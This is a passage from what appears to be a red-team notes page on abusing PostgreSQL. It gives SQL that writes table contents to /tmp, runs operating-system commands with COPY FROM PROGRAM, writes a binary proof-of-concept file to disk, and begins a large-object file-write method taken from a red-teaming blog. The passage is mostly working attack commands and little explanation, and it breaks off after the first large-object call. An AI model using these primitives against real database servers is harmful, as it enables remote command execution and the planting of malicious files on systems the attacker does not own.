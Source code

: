 ```sql
CREATE TABLE dump (t TEXT);

COPY dump TO '/tmp/dump.txt';
```

## Arbitrary command execution

Execute a shell command, writing output to the specified table.  This example executes `uname -a` writing the result to the table `dump`.  Requires user permission `pg_execute_server_program`.

```sql
CREATE TABLE dump (t TEXT);

COPY dump FROM PROGRAM 'uname -a';
```

## Writing binary files

These `COPY` primitives can be combined to write binary files to the file system.  Binary data can
be written to tables in the database using the base64 decoder.  The `COPY .. TO .. WITH BINARY`
command will prepend a pSQL header that can later be stripped with the use of the tail command.

```sql
CREATE TABLE dump (t TEXT);

CREATE TABLE binaryData (b bytea);

\set b64 `base64 -w 0 function_poc`

INSERT INTO binaryData (b) values (decode(:'b64', 'base64'));

COPY binaryData TO '/tmp/psql.bin' WITH BINARY;

COPY dump FROM PROGRAM 'tail -c +26 /tmp/psql.bin > /tmp/poc';
```

# PostgreSQL Large Objects

Postgres allows [large objects](https://www.postgresql.org/docs/current/largeobjects.html) to be
stored in the `pg_catalog.pg_largeobject` table.

## Arbitrary file write

The following method lifted from [unix-ninja](https://www.unix-ninja.com/p/postgresql_for_red_teams)
shows how binary data can be inserted into the large object table and then written to the file system with
`lo_export`.

```sql
SELECT lo_create(0);
```
